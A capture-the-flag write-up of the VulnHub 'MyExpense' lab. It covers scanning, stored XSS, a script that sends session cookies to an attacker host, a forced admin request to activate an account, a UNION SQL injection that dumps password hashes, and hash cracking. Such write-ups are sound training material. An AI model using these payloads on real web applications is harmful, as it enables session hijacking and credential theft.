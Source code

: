 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/vuln-hub/my-expense/"}
---
```


From description we have the credentials
samuel/fzghn4lw
# Scan
General scan
PORT      STATE SERVICE REASON
   7   │ 80/tcp    open  http    syn-ack ttl 64
   8   │ 38575/tcp open  unknown syn-ack ttl 64
   9   │ 53717/tcp open  unknown syn-ack ttl 64
  10   │ 54457/tcp open  unknown syn-ack ttl 64
  11   │ 59781/tcp open  unknown syn-ack ttl 64
# 80
## Focused scan
```
PORT      STATE SERVICE VERSION
   6   │ 80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
   7   │ |_http-server-header: Apache/2.4.25 (Debian)
   8   │ |_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
   9   │ | http-robots.txt: 1 disallowed entry
  10   │ |_/admin/admin.php
  11   │ | http-cookie-flags:
  12   │ |   /:
  13   │ |     PHPSESSID:
  14   │ |_      httponly flag not set
  ```
## Checking `robots.txt`
```
User-agent: *
Disallow: /admin/admin.php
```

Fuzzing the page we just found `/admin` like above.

## /admin/admin.php
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703173824.png)
We found an admin panel.
We have more info about us.
`slamotte	Samuel	Lamotte	slamotte@futuraBI.fr	Collaborator	2019-12-03 17:08:09`
We don't have permissions to inactive our user
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703174158.png)

Trying to login using `slamotte` and `fzghn4lw`.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703175002.png)

Create a new account.
And the button is disable, but we can inspect the html code.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703175519.png)
And delete the disable part.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703175631.png)
Now the button is enable and we can create the new account.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703175654.png)
We are in the system with an inactive account.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703175913.png)

Trying XSS creating a new test user with the fields. Don't forget able the button.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703180410.png)
Check the admin panel and we have a XSS.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703180550.png)
# XSS
To exploit this XSS we need the interaction of a some user, to check if some user is checking the admin panel.
Create a new user with this code on the two last fields.
```js
<script src="http://192.168.122.192/test.js"></script>
```
This code is trying to get the file `test.js` from our server, if someone check the admin panel, the code is executed and we can watch the request on our server.
Mount a server on the attacker machine.
```python
python -m http.server 80
```

## Get the cookie
now in the js file put
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://attackerIP/?cookie=' + document.cookie);
request.send();
```
`PHPSESSID=0iap4q3kqsctljgp13vrcbi1f2`
`0gp9edhmbd1lnnjejhitk4mk65`
`h4a1tpdbhnfjss32mhup0v6d37`
`knjvvrlahr23emlepkqn800ac2`
We got some cookies, one of them is the admin account, but if use that cookie, we can't login, because the system admit just 1 login.

# XSRF
Activate account
Trying another way, if we try to activate the account we have.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240704171243.png)

Now we know that the admin is constantly visiting the admin panel, so we can set the XSS to the user make a request to the url above.
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.122.204/admin/admin.php?id=11&status=active');
request.send();
```
Now we start the python server again ans wait. After a while we can see that the admin make the request and our account should be activate.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240704171856.png)

After login in, in the expense reports, we see the report and now submit it.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240704172227.png)
Some has to approve our report, and we see in the profile settings that Manen RIviere is our Manager.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240704172450.png)
We supposs to Manon has an panel to approve our report, so we'll try to get the Manon cookie sending an js in the message field. Again listen on python server.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_181923.png)
We have a few cookies, one of them is the Manager cookie.

![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_182401.png)
Now validate the report. On the green button.

We need that the financial person approve the payment
in the rennes page we will try sqli.

# SQLi
We break the query adding this.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_184024.png)
Now get the information from db
## DB names
information_schema,myexpense,mysql,performance_schema
## myexpense DB
expense,message,site,user
### User Table
`http://192.168.122.204/site.php?id=2%20union%20select%201,group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27user%27--%20-`

user_id,**username**,**password**,role,lastname,firstname,site_id.....e,max_statement_time

## Username and password
**afoulon:124922b5d61dd31177ec83719ef8110a**
**pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a**
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
test:912b7bc95fb9e6885a4685746433f39a
test2:088e03d5b2537942a15e4842d27eb49d

Checking the admin panel again to see all accounts, we are interested on the `Finalcial approvers` accounts and we will try to crack the passwords of them.

`afoulon	Aristide	Foulon	afoulon@futuraBI.fr	Financial approver	2019-12-03 17:08:09`
`pbaudouin	Paul	Baudouin	pbaudouin@futuraBI.fr	Financial approver	2019-12-03 17:08:09`

# Cracking hashes
Checking hashes.com

afoulon:wq6hblv3
pbaudouin:HackMe

Login in like `afoulon` and he don't have our report. But `pbaudouin` has it.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_205514.png)

# Flag
Login as Samuel and get the flag.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_205739.png)